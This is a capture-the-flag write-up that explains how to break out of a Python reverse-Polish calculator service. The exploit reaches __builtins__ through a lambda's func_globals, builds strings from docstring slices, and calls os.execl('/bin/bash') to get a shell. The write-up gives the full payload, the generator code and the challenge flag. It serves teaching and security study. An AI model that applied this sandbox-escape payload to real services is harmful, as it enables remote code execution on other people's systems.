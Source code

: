 # Rotaluklak (pwn)

A very nice Python exploitation challenge.
We get access to a service and it's [source code](source.py)

The important part of the code is:

```python
    multiply = operator.mul
    divide = operator.div
    idivide = operator.truediv
    add = operator.add
    subtract = operator.sub
    xor = operator.xor
    power = operator.pow
    wumbo = lambda _, x, y: int((str(x) + str(y)) * x)

    def evaluate(self, expr, debug=False):
        expr = expr.split()
        stack = []
        for token in expr:
            try:
                # If the token is a number, push it onto the stack.
                stack.append(int(token))
            except ValueError:
                # This is an operator call the appropriate function
                y = stack.pop()
                x = stack.pop()
                stack.append(operator.attrgetter(token)(self)(x, y))
        return stack[0]
```

The service takes our input, splits tokens by space and then evaluates them as Reverse Polish Notation inputs.
It seems we can only pass integer arguments and call only 2-argument functions from `self`.

There are a couple of important points here:

1. Due to how `operator.attrgetter` works we can access properties recursively here - we can pass `x.y.z` to access `self.x.y.z`
2. We can access ANY property of the `self` object, not only functions we can see in the source code.
3. While arguments we pass directly in input can be only integers, we can place any object on the stack, as long as this object is returned from function we call

As usual in such challenges we try to figure out how to get access to `__builtins__` module and then use `__import__` to get something like `os` or `subprocess`.
There is not much to work with, but there is `wumbo` lambda function, which contains `func_globals` dictionary.
In this dictionary we have `__builtins__` module we want.
The problem is we can't use `['__builtins__']` in `operator.attrgetter` parameter, we can only access direct properties.

Our idea is to call `wumbo.func_globals.get` with 2 arguments `__builtins__` and some random integer, which will return the module we want.
Now to do this we need to have a string on the stack, so we can use it as an argument.

We will need more strings, so it's a good idea to make a function which can create arbitrary strings on the stack.
To achieve this we will use `__doc__.__getslice__`.
It's quite obvious the intended way, because `__doc__` contains all possible characters.
We use `__getslice__` for simplicity, as it actually takes 2 arguments.

So to get some letters on the stack we can just use payload `x y __getslice__` and the evaluator will place `__doc__[x:y]` on the stack.
Of course there are no whole words we need in the docstring, so we'll have to combine those from single letters.
In order to combine them we can just use `add` function.
So if we do:

`x y __getslice__ z v __getslice__ add`

We will get word `__doc__[x:y]+__doc__[z:v]` on the stack.
The final function is just:


```python
def string_generator(payload):
    result = []
    c = Calculator()
    data = c.__doc__
    for character in payload:
        index = data.index(character)
        result.append((str(index), str(index + 1), "__doc__.__getslice__"))
    result.append(('add',) * (len(payload) - 1))
    return " ".join([" ".join([y for y in x]) for x in result])
```

Now back to our initial problem - we want to get `__builtins__` module.
Since we can genrate strings now, we can just send payload `string_generator("__builtins__")+' 1 wumbo.func_globals.get'` and voila, we get module on the stack.

Now the problem is, how can we use this?
Again, the function to call or properties to extract can come only from `self`.
Fortunately python allows to monkey-patch anything, so we can just create a new property on object `self` using `self.__setattr__` function.
This functions requires 2 arguments - name of the property and value.

So we can chain this with our previous payload to get:

```python
string_generator("b")+' '+string_generator("__builtins__")+' 1 wumbo.func_globals.get  __setattr__ '
```

And this will create a new property `b` on object `self` and assign the `__builtins__` module there. 
Downside of this, is that setattr pushes None on the stack, and from now on we won't get echo, since top of the stack will be None.
Property is there, we can do `b.__import__` to access import function.

We can call this function on some module we want, for example `os` to get this module on the stack again.

```python
string_generator("b")+' '+string_generator("__builtins__")+' 1 wumbo.func_globals.get __setattr__ '+string_generator("os")+' 1 b.__import__')
```

Again we need to assign this module to some property in order to be able to access it, so we do:

```python
string_generator("b")+' '+string_generator("__builtins__")+' 1 wumbo.func_globals.get  __setattr__ '+string_generator("s")+ ' '+string_generator("os")+' 1 b.__import__ __setattr__')
```

And voila, we have `os` module set as `self.s` property.

We want to call `os.execl("/bin/bash","x")`, so what we do is simply place two strings as arguments on the stack and then call the function:

```python
string_generator("b")+' '+string_generator("__builtins__")+' 1 wumbo.func_globals.get  __setattr__ '+string_generator("s")+ ' '+string_generator("os")+' 1 b.__import__ __setattr__ '+ string_generator("/bin/bash") + ' ' + string_generator("x") + ' s.execl'
```

This gives us the final payload of:

```
358 359 __doc__.__getslice__  1772 1773 __doc__.__getslice__ 1772 1773 __doc__.__getslice__ 358 359 __doc__.__getslice__ 93 94 __doc__.__getslice__ 81 82 __doc__.__getslice__ 91 92 __doc__.__getslice__ 96 97 __doc__.__getslice__ 81 82 __doc__.__getslice__ 120 121 __doc__.__getslice__ 82 83 __doc__.__getslice__ 1772 1773 __doc__.__getslice__ 1772 1773 __doc__.__getslice__ add add add add add add add add add add add 1 wumbo.func_globals.get  __setattr__ 82 83 __doc__.__getslice__  97 98 __doc__.__getslice__ 82 83 __doc__.__getslice__ add 1 b.__import__ __setattr__ 1787 1788 __doc__.__getslice__ 358 359 __doc__.__getslice__ 81 82 __doc__.__getslice__ 120 121 __doc__.__getslice__ 1787 1788 __doc__.__getslice__ 358 359 __doc__.__getslice__ 87 88 __doc__.__getslice__ 82 83 __doc__.__getslice__ 80 81 __doc__.__getslice__ add add add add add add add add 112 113 __doc__.__getslice__  s.execl
```

Whe we send this payload to the server, we will invoke `os.execl("/bin/bash","x")` and therefore gain shell.
We can just cat the flag there: `Flag:r3vers3_p0lish_eXpl01tS!`

Initially we wanted to use `subprocess.check_output()` instead of `os.execl()`, but as mentioned earlier `setattr` places None on the stack, and therefore the result of the command is not on the top, and we can't see it.
It was easier to use `os.execl()` than to figure out how to pop those Nones, or how to start a reverse shell on the target machine.
